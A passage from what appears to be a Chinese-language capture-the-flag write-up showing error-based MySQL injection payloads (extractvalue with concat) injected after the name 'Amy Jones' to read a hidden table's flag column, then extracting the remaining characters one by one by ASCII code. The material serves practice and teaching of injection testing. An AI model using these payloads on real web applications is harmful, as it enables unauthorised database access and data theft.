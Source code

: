 列名：*hjjlgcco*

`Amy Jones' and extractvalue(1,concat(0x7e,(select hjjlgcco from dmgiimcl limit 0,1)));#`

![alt text](assets/writeup/image-38.png)

**得到flag的前31位**

*flag{55d6099c7128c38641ed4fece4*

`Amy Jones' and extractvalue(1,concat(0x7e,(select ascii(substr(hjjlgcco,32,1)) from dmgiimcl limit 0,1)))#`

![alt text](assets/writeup/image-39.png)

`Amy Jones' and extractvalue(1,concat(0x7e,(select ascii(substr(hjjlgcco,33,1)) from dmgiimcl limit 0,1)))#`

![alt text](assets/writeup/image-40.png)

**重复，直至38位**

`Amy Jones' and extractvalue(1,concat(0x7e,(select ascii(substr(hjjlgcco,38,1)) from dmgiimcl limit 0,1)))#`

![alt text](assets/writeup/image-41.png)

125代表右大括号`}`的ascii码，代表flag结束
